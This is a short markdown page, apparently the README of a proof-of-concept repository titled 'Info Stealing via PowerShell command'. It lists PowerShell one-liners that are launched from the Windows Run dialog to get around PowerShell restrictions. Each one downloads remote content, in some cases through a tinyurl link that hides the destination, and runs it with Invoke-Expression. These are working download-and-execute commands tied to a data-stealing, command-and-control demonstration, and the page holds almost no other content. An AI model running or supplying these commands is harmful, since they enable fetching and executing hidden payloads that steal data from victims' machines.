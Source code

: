 # Info Stealing via PowerShell command

## ByPass PowerShell restriction

Using "run" application to run powershell command inline:

    - powershell Write-Host "Test"; Start-Sleep -Seconds 1
    - powershell $rawcmd = Invoke-webrequest -URI https://raw.githubusercontent.com/roccosicilia/my-papers/main/poc-c2/infosteal-ps/cmd-demo.txt; Invoke-Expression $rawcmd;
    - powershell $rawcmd = Invoke-webrequest -URI https://tinyurl.com/3v7pdjj9; Invoke-Expression $rawcmd;
    - powershell $rawcmd = Invoke-webrequest -URI https://tinyurl.com/3v7pdjj9 -UseBasicParsing; Invoke-Expression $rawcmd;
